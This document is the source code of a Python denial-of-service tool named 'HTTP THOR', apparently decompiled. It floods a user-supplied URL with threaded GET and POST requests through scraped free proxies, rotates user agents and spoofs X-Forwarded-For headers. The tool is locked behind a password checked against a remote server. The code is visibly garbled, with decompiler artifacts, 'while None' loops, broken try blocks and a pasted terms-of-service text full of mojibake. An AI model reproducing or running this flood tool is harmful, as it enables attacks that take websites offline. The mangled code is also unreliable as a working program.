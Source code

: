 # ddos
#!/usr/bin/env python #coding: utf-8 #..:: > HTTP THOR &lt; ::.. Mod By THOR import urllib.request as urllib import os import threading import time import random import sys import string import urllib import multiprocessing import hashlib import getpass import socket import http.client as http    CONST_USERAGENT = [ 'Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2049.0 Safari/537.36', 'Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.67 Safari/537.36', 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/536.5 (KHTML, like Gecko) Chrome/19.0.1084.9 Safari/536.5', 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/536.5 (KHTML, like Gecko) Chrome/19.0.1084.9 Safari/536.5', 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_0) AppleWebKit/536.3 (KHTML, like Gecko) Chrome/19.0.1063.0 Safari/536.3', 'Mozilla/5.0 (Windows NT 5.1; rv:31.0) Gecko/20100101 Firefox/31.0', 'Mozilla/5.0 (Windows NT 6.1; WOW64; rv:29.0) Gecko/20120101 Firefox/29.0', 'Mozilla/5.0 (X11; OpenBSD amd64; rv:28.0) Gecko/20100101 Firefox/28.0', 'Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0', 'Mozilla/5.0 (Windows NT 6.1; rv:27.3) Gecko/20130101 Firefox/27.3', 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.6; rv:25.0) Gecko/20100101 Firefox/25.0', 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:24.0) Gecko/20100101 Firefox/24.0', 'Mozilla/5.0 (Windows; U; MSIE 9.0; WIndows NT 9.0; en-US))', 'Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.1; WOW64; Trident/6.0)', 'Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.1; Trident/4.0; InfoPath.2; SV1; .NET CLR 2.0.50727; WOW64)', 'Mozilla/5.0 (compatible; MSIE 10.0; Macintosh; Intel Mac OS X 10_7_3; Trident/6.0)', 'Opera/12.0(Windows NT 5.2;U;en)Presto/22.9.168 Version/12.00', 'Opera/9.80 (Windows NT 6.0) Presto/2.12.388 Version/12.14', 'Mozilla/5.0 (Windows NT 6.0; rv:2.0) Gecko/20100101 Firefox/4.0 Opera 12.14', 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.0) Opera 12.14', 'Opera/12.80 (Windows NT 5.1; U; en) Presto/2.10.289 Version/12.02', 'Opera/9.80 (Windows NT 6.1; U; es-ES) Presto/2.9.181 Version/12.00', 'Opera/9.80 (Windows NT 5.1; U; zh-sg) Presto/2.9.181 Version/12.00', 'Mozilla/5.0 (compatible; MSIE 9.0; Windows Phone OS 7.5; Trident/5.0; IEMobile/9.0)', 'HTC_Touch_3G Mozilla/4.0 (compatible; MSIE 6.0; Windows CE; IEMobile 7.11)', 'Mozilla/4.0 (compatible; MSIE 7.0; Windows Phone OS 7.0; Trident/3.1; IEMobile/7.0; Nokia;N70)', 'Mozilla/5.0 (BlackBerry; U; BlackBerry 9900; en) AppleWebKit/534.11+ (KHTML, like Gecko) Version/7.1.0.346 Mobile Safari/534.11+', 'Mozilla/5.0 (BlackBerry; U; BlackBerry 9850; en-US) AppleWebKit/534.11+ (KHTML, like Gecko) Version/7.0.0.254 Mobile Safari/534.11+', 'Mozilla/5.0 (BlackBerry; U; BlackBerry 9850; en-US) AppleWebKit/534.11+ (KHTML, like Gecko) Version/7.0.0.115 Mobile Safari/534.11+', 'Mozilla/5.0 (BlackBerry; U; BlackBerry 9850; en) AppleWebKit/534.11+ (KHTML, like Gecko) Version/7.0.0.254 Mobile Safari/534.11+', 'Mozilla/5.0 (Windows NT 6.2) AppleWebKit/535.7 (KHTML, like Gecko) Comodo_Dragon/16.1.1.0 Chrome/16.0.912.63 Safari/535.7', 'Mozilla/5.0 (X11; U; Linux x86_64; en-US) AppleWebKit/532.5 (KHTML, like Gecko) Comodo_Dragon/4.1.1.11 Chrome/4.1.249.1042 Safari/532.5', 'Mozilla/5.0 (iPad; CPU OS 6_0 like Mac OS X) AppleWebKit/536.26 (KHTML, like Gecko) Version/6.0 Mobile/10A5355d Safari/8536.25', 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_6_8) AppleWebKit/537.13+ (KHTML, like Gecko) Version/5.1.7 Safari/534.57.2', 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_7_3) AppleWebKit/534.55.3 (KHTML, like Gecko) Version/5.1.3 Safari/534.53.10', 'Mozilla/5.0 (iPad; CPU OS 5_1 like Mac OS X) AppleWebKit/534.46 (KHTML, like Gecko ) Version/5.1 Mobile/9B176 Safari/7534.48.3', 'Mozilla/5.0 (Windows; U; Windows NT 6.1; tr-TR) AppleWebKit/533.20.25 (KHTML, like Gecko) Version/5.0.4 Safari/533.20.27']  

def MyProcess(): '''MyProcess''' __qualname__ = 'MyProcess'  def __init__(self, url, proxy_list, threads_number): multiprocessing.Process.__init__(self) self.url = url self.proxy_list = proxy_list self.threads_number = threads_number   def run(self): for i in range(self.threads_number): Boomer(self.url, self.proxy_list).start() MyProcess = (NODE,28)(MyProcess, 'MyProcess', multiprocessing.Process)  def Boomer(): '''Boomer''' __qualname__ = 'Boomer'  def __init__(self, target_url, proxy_list): threading.Thread.__init__(self) self.target_url = target_url self.proxy_list = proxy_list self.prob = random.randrange(0, 10, 1)   def randomIp(self): random.seed() result = str(random.randint(1, 254)) + '.' + str(random.randint(1, 254)) + '.' result = result + str(random.randint(1, 254)) + '.' + str(random.randint(1, 254)) return result   def randomIpList(self): random.seed() res = '' for ip in range(random.randint(2, 8)): res = res + self.randomIp() + ', '  return res[0:len(res) - 2]   def randomUserAgent(self): return random.choice(CONST_USERAGENT)   def run(self): method = 'GET' if random.randrange(0, 10, 1) >= 5: method = 'POST' proxy_selected = random.choice(self.proxy_list).split(':') head = method + ' ' + self.target_url + ' HTTP/1.1\r\n' host_url = self.target_url.replace('http://', '').replace('https://', '').split('/')[0] host = 'Host: ' + host_url + '/ \r\n' accept = 'Accept-Encoding: gzip, deflate\r\n' user_agent = 'User-Agent: ' + self.randomUserAgent() + '\r\n' connection = 'Connection: Keep-Alive, Persist\r\nProxy-Connection: keep-alive\r\n' x_forwarded_for = 'X-Forwarded-For: ' + self.randomIpList() + '\r\n' http_request = head + host + user_agent + accept + x_forwarded_for + connection + '\r\n' while None: try: s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) s.connect((proxy_selected[0], int(proxy_selected[1]))) s.send(http_request.encode('utf-8')) print('@' + method + ' request make.') try: for i in range(3): s.send(http_request) except: tts = 1  continue proxy = random.choice(self.proxy_list).split(':') continue  continue return None  Boomer = (NODE,28)(Boomer, 'Boomer', threading.Thread)  class Main: __qualname__ = 'Main'  def __init__(self): if os.name in ('nt', 'dos', 'ce'): os.system('cls') os.system('title ..................::HTTP THOR::..................') os.system('color a') color = [ 'a', 'b', 'c', 'd', 'e', 'f'] os.system('color %s' % color[random.randrange(0, len(color), 1)]) else: linux_shell_color = [ '\x1b[31m', '\x1b[32m', '\x1b[33m', '\x1b[34m', '\x1b[35m', '\x1b[36m', '\x1b[37m', '\x1b[95m', '\x1b[94m', '\x1b[92m', '\x1b[93m', '\x1b[91m', '\x1b[0m'] print(linux_shell_color[random.randrange(0, len(linux_shell_color), 1)]) disclaimer = ' \n' \ ' _ _ ___ _ _____ ' \ ' __| | __| |/ _ \\ ___ __| |___ /_ __\n' \ ' / _` |/ _` | | | / __|/ _` | |_ \\ \\ / /\n' \ ' | (_| | (_| | |_| \\__ \\ (_| |___) \\ V / \n' \ ' \\__,_|\\__,_|\\___/|___/\\__,_|____/ \\_/ \n' \ ' ### Using this program you are responsible of your action.\n' \ ' ### Be carefull and read TOS.\n' \ ' ### Author and copyright are reserverd by THOR.\n' \ '\n' \ ' BY ACCESSING AND USING THE SERVICES IN ANY MANNER, YOU ARE "ACCEPTING" \n' \ ' AND AGREEING TO BE BOUND BY THESE TERMS OF SERVICE TO THE EXCLUSION OF ALL OTHER TERMS. \n' \ ' IF YOU DO NOT UNCONDITIONALLY ACCEPT THESE TERMS IN THEIR ENTIRETY, \n' \ ' YOU SHALL NOT (AND SHALL HAVE NO RIGHT TO) ACCESS OR USE THE SERVICES. \n' \ ' IF THE TERMS OF THIS AGREEMENT ARE CONSIDERED AN OFFER, ACCEPTANCE IS EXPRESSLY LIMITED TO SUCH TERMS. \n' \ ' THESE TERMS SHOULD BE READ IN CONJUNCTION WITH HOOTSUITE\xc3\xa2\xe2\x82\xac\xe2\x84\xa2S PRIVACY POLICY AND COPYRIGHT POLICY.\n' \ '\n' \ ' Wherever used in these Terms of Service, \xc3\xa2\xe2\x82\xac\xc5\x93you\xc3\xa2\xe2\x82\xac\xc2\x9d, \xc3\xa2\xe2\x82\xac\xc5\x93your\xc3\xa2\xe2\x82\xac\xc2\x9d, \xc3\xa2\xe2\x82\xac\xc5\x93Customer\xc3\xa2\xe2\x82\xac\xc2\x9d, or similar terms means ' \ ' the person or legal entity accessing or using the Services. If you are accessing and \n' \ ' using the Services on behalf of a company (such as your employer) or other legal entity, \n' \ ' you represent and warrant that you have the authority to bind that company\n' \ ' or other legal entity to these Terms of Service.\n' \ '\n' \ '\n' \ ' ..................::HTTP THOR::..................' \ ' ' print(disclaimer)   def check_url(self, url): if url[0] + url[1] + url[2] + url[3] == 'www.': url = 'http://' + url elif url[0] + url[1] + url[2] + url[3] == 'http': pass else: url = 'http://' + url return url   def retrieve_proxy(self): sourcecode = urllib.request.urlopen('http://free-proxy-list.net/') half = str(sourcecode.read()) half = half.split('&lt;tbody>') half = half[1].split('&lt;/tbody>') half = half[0].split('&lt;tr>&lt;td>') proxy_list = '' for proxy in half: proxy = proxy.split('&lt;/td>&lt;td>')  try: proxy_list = proxy_list + proxy[0] + ':' + proxy[1] + '\n' continue continue  out_file = open('proxy.txt', 'w') out_file.write(proxy_list) out_file.close()  def setup(self): public_key = 'jjvbag%' secret_key = '&amp;kk17cnH%'  try: with open('password.txt', 'r') as f: password_file = f.readline() password_file = password_file.replace('\n', '')  except: print('# Could not find password.txt.') sys.exit(0)   try: sourcecode = urllib.request.urlopen('https://350adf0c87a0387a8100df99cb6...zhwUjBOa1VLUFdtRDhSR01qenZ1M1hZMWs/pwTHOR.txt') except: print('# Impossible to connect to the server, please try again.') sys.exit(0)  hash1 = str(sourcecode.read().decode('utf-8')) hash2 = hashlib.sha1(password_file.encode('utf-8') + secret_key.encode('utf-8')).hexdigest() + '8a,' + public_key if hash1 != hash2: print("##FATAL ERROR##\n\nYou maybe need to update this program or your password isn't correct.\n\nPm nick: Nhi paltalk.com.") sys.exit(0) print('# Password correct.') target_url = input('# Enter URL to send requests: ') target_url = self.check_url(target_url) while None:  try: s = str(input("# Enter 'y' to download a fresh proxy list or or leave empty to skip: ")) if s == 'y': self.retrieve_proxy() print('# Proxy list successfully downloaded.') break continue print('# Failed to download the proxy list.') continue  continue while None: ipotetical_list = str(input('# Enter the proxy list or leave empty to skip default [proxy.txt]: ')) if ipotetical_list == '': ipotetical_list = 'proxy.txt'  try: in_file = open(ipotetical_list, 'r') proxy_list = [] for i in in_file: proxy_list.append(i.split('/n')[0])  continue print('# Error to read file.') continue  continue while None:  try: pools_number = int(input('# Enter the number of parallel processes or leave empty to skip default [0]: ')) except: pools_number = 0  break continue while None:  try: threads_number = int(input('# Enter the number of thread or leave empty to skip default [800]: ')) except: threads_number = 800  break continue for i in range(threads_number): Boomer(target_url, proxy_list).start() time.sleep(0.003) print('Thread ' + str(i) + ' is going up')  if pools_number > 0: for pool_number in range(pools_number): MyProcess(target_url, proxy_list, threads_number).start()  if __name__ == '__main__': main = Main() main.setup()

# Please write the program in any editor.
